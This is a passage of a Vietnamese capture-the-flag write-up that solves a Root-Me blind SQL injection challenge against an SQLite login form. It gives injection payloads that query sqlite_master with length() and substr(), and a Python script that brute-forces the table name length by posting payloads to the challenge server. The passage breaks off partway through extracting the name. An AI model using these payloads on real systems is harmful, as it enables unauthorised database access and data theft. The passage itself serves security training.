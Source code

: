 ```
or length((select {column_name} from {table_name})) -- 
```

Trong **SQLite** có bảng là `sqlite_master` tương tự như `information_schema` bên **MySQL**, mình có thể lấy thông tin ở đây - [Tham khảo thêm](https://www.sqlite.org/schematab.html). Giờ mình sẽ thực hiện lần lượt các bước exploit:

### TÌM ĐỘ DÀI TÊN CỦA TABLE:

Mình sẽ dùng payload sau để lấy chiều dài của tên cột, lấy giá trị của cột `tbl_name`. Payload mẫu:

```
1' or length((select tbl_name from sqlite_master)) = 1 -- 
```

Vì kết quả phép thử bên phải `or` chỉ là đúng hay không nên để xác định chính xác một con số thì mình phải **brute-force**. Dùng đoạn code Python sau đây :

```python
import requests

query = "1' or length((select tbl_name from sqlite_master limit 0, 1)) = "  
result = ""

for i in range(1, 30): # Dự đoán chiều dài tên của table.
    username = query + str(i) + " -- "
    payload = {
        'username' : username,
        'password' : 123
    }
    request = requests.post('http://challenge01.root-me.org/web-serveur/ch10/', payload)
    if ('Welcome back' in request.text):
        result += str(i)
        print("Length of table's name is " + result)
        break      
    else:
        print("Length = " + str(i) + ". Wrong !")
````

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/161268755-bd7d1745-df4d-4d8a-b4ac-aeab1c759d0c.png"></p>

Vậy là độ dài tên bảng bằng **5**. 

> NOTE: Phần này các bạn có thể kiểm tra xem có bao nhiêu bảng bằng cách thay giá trị **offset** trong `LIMIT`rồi chạy lại chương trình. Khi chạy thử với giá trị **offset >= 1** thì nó sẽ chạy mãi cho đến hết vòng lặp và chẳng bao giờ trả về kết quả, vì thế nên CSDL hiện tại chỉ có 1 table.

### TÌM CHÍNH XÁC TÊN TABLE:

Tiếp tục tìm tên của table (ai chơi CTF nhiều sẽ biết là bảng `users` luôn :> ). Ở đây mình dùng hàm `SUBSTR()` để lấy ký tự tại một vị trí và so sánh. Payload mẫu

```
1' or substr((select tbl_name from sqlite_master limit 0, 1), 1, 1) = 'a' -- 
```
